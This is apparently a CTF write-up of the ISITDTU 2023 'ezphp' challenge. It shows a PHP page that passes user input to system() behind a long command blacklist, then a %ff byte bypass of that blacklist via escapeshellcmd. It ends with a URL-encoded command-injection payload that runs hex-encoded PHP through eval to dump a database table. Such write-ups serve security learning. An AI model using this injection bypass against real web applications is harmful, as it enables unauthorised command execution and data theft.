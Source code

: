```yaml
---
layout: post
title: ISITDTU CTF Qualifiers 2023 - ezphp Writeup
excerpt: "Despite being titled ezphp, this challenge was anything but easy. Let's take a look at how I solved it."
categories: [Writeups]
tags: [web]
---
```

Despite being titled ezphp, this challenge was anything but easy. It took be beyond the end of the CTF to finish, but it was a fun challenge nonetheless. 

We are provided a link and some source code. The source code is as follows:

```php
<html>
 <head>
  <title> Debug Page...</title>

  <meta charset="utf-8">

  <link rel="stylesheet" href="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/css/bootstrap.min.css">
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.0/jquery.min.js"></script>
  <script src="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js"></script>

</head>
<body>
    <div class="container">
    <?php
    error_reporting(0);
    $conn = mysqli_connect('db', 'user', 'test', "dockerExample");


    $query = 'SELECT * From Person';
    $result = mysqli_query($conn, $query);

    echo '<table class="table table-striped">';
    echo '<thead><tr><th></th><th>id</th><th>name</th></tr></thead>';
    while($value = $result->fetch_array(MYSQLI_ASSOC)){
        echo '<tr>';
        echo '<td><a href="#"><span class="glyphicon glyphicon-search"></span></a></td>';
        foreach($value as $element){
            echo '<td>' . $element . '</td>';
        }

        echo '</tr>';
    }
    echo '</table>';

    $result->close();

    mysqli_close($conn);

    $blacklists = ["chgrp","mknod","run-parts","vdir","bunzip2","chmod","fgrep","mktemp","sed","wdctl","bzcat","chown","findmnt","more","bzcmp","cp","grep","mount","sleep","zcat","bzdiff","bash","gunzip","mountpoint","stty","zcmp","bzegrep","date","gzexe","mv","su","zdiff","bzexe","dd","gzip","nisdomainname","sync","zegrep","bzfgrep","df","hostname","pidof","tar","zfgrep","bzgrep","dir","kill","ps","tempfile","zforce","bzip2","dmesg","ln","pwd","touch","zgrep","bzip2recover","dnsdomainname","login","rbash","true","zless","bzless","domainname","ls","readlink","umount","zmore","bzmore","echo","lsblk","rm","uname","znew","cat","egrep","mkdir","rmdir","uncompress","m4","ab","make","addpart","make-first-existing-target","addr2line","mawk","apt","mcookie","apt-cache","md5sum","apt-cdrom","md5sum.textutils","apt-config","mesg","apt-get","mkfifo","apt-key","namei","apt-mark","nawk","ar","newgrp","arch","nice","as","nl","autoconf","nm","autoheader","nohup","autom4te","nproc","autoreconf","nsenter","autoscan","numfmt","autoupdate","objcopy","awk","objdump","b2sum","od","base32","open","base64","openssl","basename","pager","basenc","partx","bashbug","passwd","paste","patch","c89","pathchk","c89-gcc","perl","c99","c99-gcc","perl5.32.1","c_rehash","perlbug","captoinfo","perldoc","catchsegv","perlivp","cc","perlthanks","chage","pgrep","chattr","piconv","chcon","pidwait","checkgid","pinky","chfn","pkg-config","choom","pkill","chrt","pl2pm","chsh","pldd","cksum","pmap","clear","pod2html","clear_console","pod2man","cmp","pod2text","comm","pod2usage","compose","podchecker","corelist","cpan","printenv","cpp","cpp-10","prlimit","csplit","prove","curl","ptar","cut","ptardiff","deb-systemd-helper","ptargrep","deb-systemd-invoke","ptx","debconf","pwdx","debconf-apt-progress","ranlib","debconf-communicate","re2c","debconf-copydb","re2go","debconf-escape","readelf","debconf-set-selections","realpath","debconf-show","renice","delpart","reset","diff","resizepart","diff3","rev","dircolors","rgrep","dirname","rotatelogs","dpkg","rpcgen","dpkg-architecture","run-mailcap","dpkg-buildflags","runcon","dpkg-buildpackage","savelog","dpkg-checkbuilddeps","script","dpkg-deb","scriptlive","dpkg-distaddfile","scriptreplay","dpkg-divert","sdiff","dpkg-genbuildinfo","see","dpkg-genchanges","seq","dpkg-gencontrol","setarch","dpkg-gensymbols","setpriv","dpkg-maintscript-helper","setsid","dpkg-mergechangelogs","setterm","dpkg-name","sg","dpkg-parsechangelog","sha1sum","dpkg-query","sha224sum","dpkg-realpath","sha256sum","dpkg-scanpackages","sha384sum","dpkg-scansources","sha512sum","dpkg-shlibdeps","shasum","dpkg-source","shred","dpkg-split","shuf","dpkg-statoverride","size","dpkg-trigger","skill","dpkg-vendor","slabtop","du","snice","dwp","sort","edit","splain","elfedit","split","enc2xs","stat","encguess","stdbuf","env","streamzip","expand","strings","expiry","strip","expr","sum","factor","tabs","faillog","tac","fallocate","tail","fcgistarter","taskset","file","tee","fincore","test","find","tic","flock","timeout","fmt","tload","fold","toe","free","top","touch","tput","gcc","tr","gcc-10","truncate","gcc-ar","tset","gcc-ar-10","tsort","gcc-nm","tty","gcc-nm-10","tzselect","gcc-ranlib","unexpand","gcc-ranlib-10","uniq","gcov","unlink","gcov-10","unlzma","gcov-dump","unshare","gcov-dump-10","unxz","gcov-tool","update-alternatives","gcov-tool-10","uptime","gencat","users","getconf","utmpdump","getent","vmstat","getopt","w","gmake","wall","gold","watch","gpasswd","wc","gpgv","whereis","gprof","which","groups","who","h2ph","whoami","h2xs","head","hostid","htcacheclean","htdbm","htdigest","htpasswd","i386","iconv","id","ifnames","infocmp","infotocap","install","instmodsh","ionice","ipcmk","ipcrm","ipcs","ischroot","join","json_pp","last","lastb","lastlog","ld","ld.bfd","ld.gold","ldd","libnetcfg","link","linux32","linux64","locale","localedef","logger","logname","logresolve","lsattr","lscpu","lsipc","lslocks","xargs","lslogins","xsubpp","lsmem","xz","lsns","xzcat","lto-dump-10","xzcmp","lzcat","xzdiff","lzcmp","xzegrep","lzdiff","xzfgrep","lzegrep","xzgrep","lzfgrep","xzless","lzgrep","xzmore","lzless","yes","lzma","zdump","lzmainfo","zipdetails","lzmore","a2disconf","dpkg-reconfigure","policy-rc.d","a2dismod","e2freefrag","pwck","a2dissite","e4crypt","pwconv","a2enconf","e4defrag","pwunconv","a2enmod","faillock","readprofile","a2ensite","fdformat","remove-shell","a2query","filefrag","rmt","add-shell","groupadd","rmt-tar","addgroup","groupdel","rtcwake","adduser","groupmems","service","apache2","groupmod","split-logfile","apache2ctl","grpck","tarcat","apachectl","grpconv","tzconfig","check_forensic","grpunconv","update-ca-certificates","chgpasswd","httxt2dbm","update-mime","chmem","iconvconfig","update-passwd","chpasswd","invoke-rc.d","update-rc.d","chroot","ldattach","useradd","cpgr","userdel","cppw","newusers","usermod","delgroup","nologin","vigr","deluser","pam-auth-update","vipw","dpkg-fsys-usrunmess","pam_getenv","zic","dpkg-preconfigure","pam_timestamp_check","apache2-foreground","docker-php-ext-install","peardev","php","docker-php-entrypoint","docker-php-source","pecl","php-config","docker-php-ext-configure","freetype-config","phar","phpize","docker-php-ext-enable","pear","phar.phar","agetty","e2mmpstatus","fstrim","mkfs.ext2","swaplabel","badblocks","e2scrub","getty","mkfs.ext3","swapoff","blkdiscard","e2scrub_all","hwclock","mkfs.ext4","swapon","blkid","e2undo","installkernel","mkfs.minix","switch_root","blkzone","findfs","isosize","mkhomedir_helper","sysctl","blockdev","fsck","killall5","mkswap","tune2fs","chcpu","fsck.cramfs","ldconfig","pivot_root","unix_chkpwd","ctrlaltdel","fsck.ext2","logsave","raw","unix_update","debugfs","fsck.ext3","losetup","resize2fs","wipefs","dumpe2fs","fsck.ext4","mke2fs","runuser","zramctl","e2fsck","fsck.minix","mkfs","shadowconfig","e2image","fsfreeze","mkfs.bfs","start-stop-daemon","e2label","fstab-decode","mkfs.cramfs","sulogin"];
 
	$cmd = $_GET['cmd']; 
    foreach ($blacklists as $blacklist) {
    	$pattern = "/$blacklist/";
		if (preg_match($pattern, $cmd)) {
			die("Blacklist");
		}
	}

    system(escapeshellcmd($cmd));

    ?>
    </div>
</body>
</html>
```

We have a lot to look at, not only do have an extrmemly extensive blacklist, but we also have a database conneciton. We can see that the database connection is to a mysql database, and we can see that the database name is dockerExample.

Looking at the sql file we are given, we can see that there are two tables, Person and Flag_is_secret. 


```sql
SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
SET time_zone = "+00:00";


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;


CREATE TABLE `Person` (
  `id` int(11) NOT NULL,
  `name` varchar(20) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=latin1;

CREATE TABLE `Flag_is_secret` (
  `id` int(11) NOT NULL,
  `flagss1337` varchar(20) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=latin1;

INSERT INTO `Person` (`id`, `name`) VALUES
(1, 'Doraemon'),
(2, 'Conan'),
(3, 'Hanamichi');

INSERT INTO `Flag_is_secret` (`id`, `flagss1337`) VALUES
(1, 'NA'),
(2, 'NA'),
(3, 'ISITDTU{fake_flag}');

/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;

```

We can see that the flag is stored in the Flag_is_secret table, but we unfornately cannot access it directly. This is where the cmd parameter comes in. 

We can use the cmd parameter to run commands on the server. However, we are limited by the blacklist.
    
```php
    $blacklists = ["chgrp","mknod","run-parts","vdir","bunzip2","chmod","fgrep","mktemp","sed","wdctl","bzcat","chown","findmnt","more","bzcmp","cp","grep","mount","sleep","zcat","bzdiff","bash","gunzip","mountpoint","stty","zcmp","bzegrep","date","gzexe","mv","su","zdiff","bzexe","dd","gzip","nisdomainname","sync","zegrep","bzfgrep","df","hostname","pidof","tar","zfgrep","bzgrep","dir","kill","ps","tempfile","zforce","bzip2","dmesg","ln","pwd","touch","zgrep","bzip2recover","dnsdomainname","login","rbash","true","zless","bzless","domainname","ls","readlink","umount","zmore","bzmore","echo","lsblk","rm","uname","znew","cat","egrep","mkdir","rmdir","uncompress","m4","ab","make","addpart","make-first-existing-target","addr2line","mawk","apt","mcookie","apt-cache","md5sum","apt-cdrom","md5sum.textutils","apt-config","mesg","apt-get","mkfifo","apt-key","namei","apt-mark","nawk","ar","newgrp","arch","nice","as","nl","autoconf","nm","autoheader","nohup","autom4te","nproc","autoreconf","nsenter","autoscan","numfmt","autoupdate","objcopy","awk","objdump","b2sum","od","base32","open","base64","openssl","basename","pager","basenc","partx","bashbug","passwd","paste","patch","c89","pathchk","c89-gcc","perl","c99","c99-gcc","perl5.32.1","c_rehash","perlbug","captoinfo","perldoc","catchsegv","perlivp","cc","perlthanks","chage","pgrep","chattr","piconv","chcon","pidwait","checkgid","pinky","chfn","pkg-config","choom","pkill","chrt","pl2pm","chsh","pldd","cksum","pmap","clear","pod2html","clear_console","pod2man","cmp","pod2text","comm","pod2usage","compose","podchecker","corelist","cpan","printenv","cpp","cpp-10","prlimit","csplit","prove","curl","ptar","cut","ptardiff","deb-systemd-helper","ptargrep","deb-systemd-invoke","ptx","debconf","pwdx","debconf-apt-progress","ranlib","debconf-communicate","re2c","debconf-copydb","re2go","debconf-escape","readelf","debconf-set-selections","realpath","debconf-show","renice","delpart","reset","diff","resizepart","diff3","rev","dircolors","rgrep","dirname","rotatelogs","dpkg","rpcgen","dpkg-architecture","run-mailcap","dpkg-buildflags","runcon","dpkg-buildpackage","savelog","dpkg-checkbuilddeps","script","dpkg-deb","scriptlive","dpkg-distaddfile","scriptreplay","dpkg-divert","sdiff","dpkg-genbuildinfo","see","dpkg-genchanges","seq","dpkg-gencontrol","setarch","dpkg-gensymbols","setpriv","dpkg-maintscript-helper","setsid","dpkg-mergechangelogs","setterm","dpkg-name","sg","dpkg-parsechangelog","sha1sum","dpkg-query","sha224sum","dpkg-realpath","sha256sum","dpkg-scanpackages","sha384sum","dpkg-scansources","sha512sum","dpkg-shlibdeps","shasum","dpkg-source","shred","dpkg-split","shuf","dpkg-statoverride","size","dpkg-trigger","skill","dpkg-vendor","slabtop","du","snice","dwp","sort","edit","splain","elfedit","split","enc2xs","stat","encguess","stdbuf","env","streamzip","expand","strings","expiry","strip","expr","sum","factor","tabs","faillog","tac","fallocate","tail","fcgistarter","taskset","file","tee","fincore","test","find","tic","flock","timeout","fmt","tload","fold","toe","free","top","touch","tput","gcc","tr","gcc-10","truncate","gcc-ar","tset","gcc-ar-10","tsort","gcc-nm","tty","gcc-nm-10","tzselect","gcc-ranlib","unexpand","gcc-ranlib-10","uniq","gcov","unlink","gcov-10","unlzma","gcov-dump","unshare","gcov-dump-10","unxz","gcov-tool","update-alternatives","gcov-tool-10","uptime","gencat","users","getconf","utmpdump","getent","vmstat","getopt","w","gmake","wall","gold","watch","gpasswd","wc","gpgv","whereis","gprof","which","groups","who","h2ph","whoami","h2xs","head","hostid","htcacheclean","htdbm","htdigest","htpasswd","i386","iconv","id","ifnames","infocmp","infotocap","install","instmodsh","ionice","ipcmk","ipcrm","ipcs","ischroot","join","json_pp","last","lastb","lastlog","ld","ld.bfd","ld.gold","ldd","libnetcfg","link","linux32","linux64","locale","localedef","logger","logname","logresolve","lsattr","lscpu","lsipc","lslocks","xargs","lslogins","xsubpp","lsmem","xz","lsns","xzcat","lto-dump-10","xzcmp","lzcat","xzdiff","lzcmp","xzegrep","lzdiff","xzfgrep","lzegrep","xzgrep","lzfgrep","xzless","lzgrep","xzmore","lzless","yes","lzma","zdump","lzmainfo","zipdetails","lzmore","a2disconf","dpkg-reconfigure","policy-rc.d","a2dismod","e2freefrag","pwck","a2dissite","e4crypt","pwconv","a2enconf","e4defrag","pwunconv","a2enmod","faillock","readprofile","a2ensite","fdformat","remove-shell","a2query","filefrag","rmt","add-shell","groupadd","rmt-tar","addgroup","groupdel","rtcwake","adduser","groupmems","service","apache2","groupmod","split-logfile","apache2ctl","grpck","tarcat","apachectl","grpconv","tzconfig","check_forensic","grpunconv","update-ca-certificates","chgpasswd","httxt2dbm","update-mime","chmem","iconvconfig","update-passwd","chpasswd","invoke-rc.d","update-rc.d","chroot","ldattach","useradd","cpgr","userdel","cppw","newusers","usermod","delgroup","nologin","vigr","deluser","pam-auth-update","vipw","dpkg-fsys-usrunmess","pam_getenv","zic","dpkg-preconfigure","pam_timestamp_check","apache2-foreground","docker-php-ext-install","peardev","php","docker-php-entrypoint","docker-php-source","pecl","php-config","docker-php-ext-configure","freetype-config","phar","phpize","docker-php-ext-enable","pear","phar.phar","agetty","e2mmpstatus","fstrim","mkfs.ext2","swaplabel","badblocks","e2scrub","getty","mkfs.ext3","swapoff","blkdiscard","e2scrub_all","hwclock","mkfs.ext4","swapon","blkid","e2undo","installkernel","mkfs.minix","switch_root","blkzone","findfs","isosize","mkhomedir_helper","sysctl","blockdev","fsck","killall5","mkswap","tune2fs","chcpu","fsck.cramfs","ldconfig","pivot_root","unix_chkpwd","ctrlaltdel","fsck.ext2","logsave","raw","unix_update","debugfs","fsck.ext3","losetup","resize2fs","wipefs","dumpe2fs","fsck.ext4","mke2fs","runuser","zramctl","e2fsck","fsck.minix","mkfs","shadowconfig","e2image","fsfreeze","mkfs.bfs","start-stop-daemon","e2label","fstab-decode","mkfs.cramfs","sulogin"];
```

It is truely extensive, and it took me a while to find a bypass. I tried a lot of different things, but I eventually found a bypass. 
```
%ff
```
This bypasses the blacklist, and allows us to run commands. As we can see here we can run "php"
![](https://i.imgur.com/ZzsHzgm.png)

We now have to connect to the mysql database in order to extract the flag. We can do this by running the following command:
```php
ª$c = new mysqli('db', 'root', 'test', 'dockerExample');
$r = $c->query('SELECT * FROM The_table_you_dont_know');
while ($w = $r->fetch_assoc()) {
    print_r($w);
}
```
This php code will connect to the mysql database, and print out the contents of the table `the_table_you_dont_know` as it not actually in the `flag_is_secret` table.

We can then convert this php into hex:
`aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a`

We can then use eval(), substr() and hex2bin() to run this php code:
```php
php -r eval(substr(hex2bin(aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a),1));
```

Thought we still have have an issue with the blacklist. We can bypass this by using %ff. There is a flaw in PHP's escapeshellcmd() function  which stems from its handling of invalid Unicode characters, creating a security gap ripe for exploitation. Initially, the input is scanned against a blacklist via regex, which fails to match harmful strings like `ph\xFFp` due to the presence of `\xFF`. When escapeshellcmd() is invoked, it removes these invalid Unicode characters, effectively transforming the string into something like php, which bypasses the original filter. This results in a discrepant string representation at the regex and shell escaping stages, ultimately leaving the system vulnerable to command injection attacks.

The php documentation says the following are escaped by escapeshellcmd():
```
&#;`|*?~<>^()[]{}$\, \x0A and \xFF.
``` 




Keeping this bypass in mind, we can then run the following command after url encoding it:
```php
p%ffhp+-r+ev%ffal(s%ffubst%ffr(hex2bin(aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a),1))%3b
```

We can then run this command in the url, and we get the flag:
![](https://i.imgur.com/DQQFSws.png)

Even though I struggled, I learned a lot, and I had a lot of fun. I hope you enjoyed this writeup, and thank you to the ISITDTU team for hosting this CTF. See you next year!
